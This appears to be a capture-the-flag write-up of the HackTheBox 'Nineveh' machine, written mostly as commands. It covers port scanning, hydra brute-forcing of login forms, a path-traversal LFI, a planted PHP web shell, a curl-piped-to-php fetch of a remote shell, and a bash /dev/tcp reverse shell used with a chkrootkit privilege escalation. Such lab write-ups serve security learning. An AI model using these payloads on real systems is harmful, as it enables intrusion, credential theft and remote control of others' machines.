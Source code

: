 # Nineveh

## scanning

```bash
furious 10.10.10.43
sudo nmap -sC -sV -sS -p 443,80 -Pn -n 10.10.10.43 -oN targeted
```
![1133.png](1133.png)

## 80
```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.10.43/FUZZ
```
![1153.png](1153.png)

## 443
```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt https://10.10.10.43/FUZZ
```
![1106.png](1106.png)

## bruteforce 

### hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -S -s 443 http-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password'
```
![1634.png](1634.png)
password123

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=admin&password=^PASS^:Invalid Password\!'
```
![1725.png](1725.png)
admin: 1q2w3e4r5t

### patator
```bash
patator http_fuzz url="http://10.10.10.43/department/login.php" method=POST  body='username=admin&password=FILE0' 0=/usr/share/wordlists/rockyou.txt -x ignore:fgrep="Invalid Password"
```
![1636.png](1636.png)

### Hi admin
![1730.png](1730.png)

### LFI
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../../../etc/passwd
![2303.png](2303.png)

### phpliteadmin
we enter and add a table
![2318.png](2318.png)

```php
<?php system($_REQUEST["cmd"]); ?>
```
![2327.png](2327.png)

We see there the path
![2329.png](2329.png)

so we enter in
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/ninevehNotes.php
![2345.png](2345.png)

now we search a reverse shell in php and conifgure it to use in the next link, also we start a http service from python
![2321.png](2321.png)

```html
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/ninevehNotes.php&cmd=curl 10.10.14.6/shell.php | php
```
![2333.png](2333.png)


## root the box

we create a procmon.sh

```bash
#!/bin/bash

old_process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep '[\>\<]'| grep -v -E 'procmon|command'
        old_process=$new_process
done
```
![1903.png](1903.png)
```bash
searchsploit chkrootkit
searchsploit -x linux/local/33899.txt
```
we have to create a script named update and give it execution privilege in /tmp
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/5555 0>&1
```
we wait for the connection in 5555 and wait
![2053.png](2053.png)

## user

cat /home/amrois/user.txt
cat /root/root.txt

